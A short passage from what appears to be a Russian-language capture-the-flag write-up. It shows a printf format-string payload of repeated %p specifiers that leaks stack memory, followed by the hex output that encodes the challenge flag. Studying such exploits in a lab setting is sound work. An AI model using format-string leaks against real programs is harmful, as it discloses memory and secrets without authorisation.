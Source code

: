 ![](imgs/race/decode.png)

Слегка изменим строку для printf, чтобы забрать весь флаг.

    %p%p%p%p%p%p%p%p%p%p%p___%p%p%p%p%p%p%p%p%p%p%p 
    (11 первых адресов нас не интересует, далее идут нужные, отделили их "_").

Получили 
    
    0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f

![](imgs/race/remote2.png)
